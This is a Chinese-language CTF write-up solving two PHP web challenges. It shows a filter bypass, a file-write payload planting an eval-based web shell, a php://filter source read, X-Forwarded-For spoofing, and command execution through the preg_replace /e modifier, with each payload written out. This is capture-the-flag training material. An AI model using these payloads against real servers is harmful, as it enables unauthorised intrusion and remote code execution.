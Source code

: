 <font size=4>
虽然是考试周，可是实在不想天天刷题，写写CTF，承包一整天的快乐。
## 工控云管理系统项目管理页面解析漏洞
打开题目，读到源码，进行审计。

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>
这里首先需要admin权限，需要绕过id的过滤：
`      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9')`
这个的意思就是，将id浮点化之后仍然是1，并且id是以9结尾的。

可以使用`id=1--9`绕过，就是中间加上字符，浮点化就会舍弃后面的部分，但是字符串本身没有改变。
可以看到结果如下

![](./img/1.png)

下来是第二段代码

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
在第一段已经获得admin之后，if可以通过。然后post进来三个参数。
这里的php正则，具体的东西我没有仔细学，之后补一补，看看大佬的wp说这个是只过滤了最后一个"."后面的东西。

可以使用`../filename/.`来过滤，因为backup这个文件夹并没有用到，而是uploaded这个文件夹。

然后就把自己的木马写进去就OK。附上payload。

`con=<?php @eval($_POST['gwy2333']);?>&file=../gwy.php/.`

记住是POST，一开始忘了，GET了半天。

![](./img/2.png)

这时候再次访问uploaded/gwy.php，没有出现404，说明已经写好了。开启中国蚁剑。

![](./img/3.png)

测试一下，连接成功。直接去找flag。在html目录底下找见了flag。

![](./img/4.png)


## 后门入侵系统
打开网站，出现page这个GET的参数，联想到文件包含读源码的漏洞，读一读index.php。
`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`


![](./img/5.png)

base64解码后得到源码。进行审计。

	<?php
	if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	    echo "<br >Welcome My Admin ! <br >";
	    $pattern = $_GET[pat];
	    $replacement = $_GET[rep];
	    $subject = $_GET[sub];
	    if (isset($pattern) && isset($replacement) && isset($subject)) {
	        preg_replace($pattern, $replacement, $subject);
	    }else{
	        die();
	    }
	}
	?>

XFF改成127.0.0.1之后，GET进来三个参数。这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞。

首先使用phpinfo看一下能不能执行，发现可以。

![](./img/6.png)

之后使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。

![](./img/7.png)

`rep=system("cd+s3chahahaDir/flag+%26%26+ls")`
注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.

![](./img/8.png)


拿到flag，安心复习。